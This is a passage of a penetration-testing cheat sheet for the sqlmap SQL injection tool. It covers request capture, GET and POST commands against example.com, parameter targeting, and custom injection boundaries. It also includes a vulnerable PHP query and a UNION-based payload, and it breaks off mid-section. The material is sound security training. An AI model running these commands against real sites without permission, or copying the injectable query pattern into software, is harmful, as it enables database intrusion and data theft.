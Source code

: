 >[!code]- Setup
>```powershell
># Show basic or advanced help
>sqlmap -h
>sqlmap -hh
>
># Read the wiki
>https://github.com/sqlmapproject/sqlmap/wiki/Usage
>```

>[!code]- Generate a request
>1. Developer Tools > Network > right-click request > Save as cURL
>2. Burp > right-click request > Copy to file

>[!code]- Provide a HTTP request
>###### GET request
>```powershell
># GET request - generated from Save as cURL Firefox option
>sqlmap 'http://www.example.com/?id=1' -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0' -H 'Accept: image/webp,*/*' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Connection: keep-alive' -H 'DNT: 1'
>
># POST request
>sqlmap 'http://www.example.com/' --data 'uid=1&name=test'
>
># Only test the uid parameter
>sqlmap 'http://www.example.com/' --data 'uid=1&name=test' -p uid
>sqlmap 'http://www.example.com/' --data 'uid=1*&name=test'
>
># Use a file (generated via Burp 'Copy to file' option)
>sqlmap -r req.txt
>```

>[!code]- Attack tuning
>##### Custom boundaries
>```powershell
>sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"
>```
>>[!info]- Explainer
>>Every SQLMap payload consists of:
>>1. A vector - which is the central part of the payload
>>2. The boundaries - which are the prefix and suffix formations that allow the vector to be properly injected into the victim application
>>
>>For example if the vulnerable code at the target is:
>>```php
>>$query = "SELECT id,name,surname FROM users WHERE id LIKE (('" . $\_GET["q"] . "')) LIMIT 0,1";
>>\$result = mysqli_query($link, $query);
>>```
>>The vector `UNION ALL SELECT 1,2,VERSION()`, bounded with the prefix `%'))` and the suffix `-- -` will result in the following (**valid**) SQL statement at the targetL
>>```sql
>>SELECT id,name,surname FROM users WHERE id LIKE (('test%')) UNION ALL SELECT 1,2,VERSION()-- -')) LIMIT 0,1
>>```
>>So the supplied prefix and suffix should be:
>>```powershell
>>sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"
>>```
>
>##### Level & risk
>- Higher level = more vectors and boundaries attempted (although less likely to work)
>- Higher risk = more vectors attempted (although more likely to cause fatal errors)
>  
>```powershell
